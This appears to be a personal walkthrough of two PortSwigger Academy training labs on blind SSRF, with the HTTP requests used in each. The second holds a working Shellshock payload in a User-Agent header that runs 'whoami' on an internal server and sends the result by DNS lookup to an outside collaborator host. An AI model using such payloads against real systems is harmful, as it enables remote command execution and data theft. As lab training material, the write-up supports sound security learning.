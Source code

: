 # ***1. Lab: Blind SSRF with out-of-band detection***
https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection
 This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server. 

**colaborator**: bydjhao6u993vhklodbzonm6ux0soh.oastify.com

request:
GET /product?productId=4 HTTP/1.1
Host: 0a60003d04b28048c0a3790100f60037.web-security-academy.net
Referer: https://xfg5yw5sbvqpc3175zsl593sbjhf54.oastify.com
..

response in burp colaborator:
    X2 DNS queries + HTTP request

# Lab Solved

# ***2. Lab: Blind SSRF with Shellshock exploitation***
https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation

 This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user. 

1. enable Collaborator-everywhere extention and browse the site. in **Target** look for **Issues** marked in red name **Pinback** - find two issue in **/product** page: first note **referer header** send a request to burp collaborator and secondly observe **User-Agent header** is being reflected:

 GET /ref HTTP/1.1
    Host: yrt3r17z6udnquokvsqspvbvjmpej28.oastify.com
    User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@b2eg2eich7o017zx651508m8uz0q2er.oastify.com
    Accept-Encoding: gzip

2. craft a payload based on **shellshok** command that initiate a *nslookup* to a collaboraptor address with **whoami** value as its subdomain. use the payload in the User-Agent header:
    User-Agent: () { :; }; /usr/bin/nslookup $(whoami).ltitckjgpj4dqrfvjn69jxhgp7v9jy.oastify.com

3. observe response:
    The Collaborator server received a DNS lookup of type A for the domain name peter-13QuIW.ltitckjgpj4dqrfvjn69jxhgp7v9jy.oastify.com.  The lookup was received from IP address 3.251.104.241 at 2022-Oct-25 19:00:35 UTC.

4. copy *peter-13QuIW* and submit

# Lab Solved!















